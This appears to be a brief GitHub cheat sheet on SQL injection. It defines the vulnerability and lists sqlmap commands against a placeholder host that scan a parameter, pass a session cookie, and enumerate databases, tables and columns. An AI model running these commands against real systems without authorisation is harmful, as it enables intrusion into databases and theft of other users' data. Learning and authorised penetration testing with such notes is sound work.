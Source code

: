 # SQL Injection using SQLMap

#### WHAT IS SQL INJECTION?

`SQL injection (SQLi)` is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behaviour.

#### SQLMAP TOOL

`sqlmap` is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

```sh
#NORMAL SCAN WITHOUT ANY PARAMETERS
sqlmap -u "http://example.com/endpoint.php" 

# PASS A COOKIE AS THE PARAMENTER
sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET]

# GET THE TABLES IN THE DATABASE
sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET] --dbs

sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET] -D [DATABASE] --tables

# GET THE COLUMNS ON THE TABLE
sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET] -D [DATABASE] -T [TABLE] --columns
```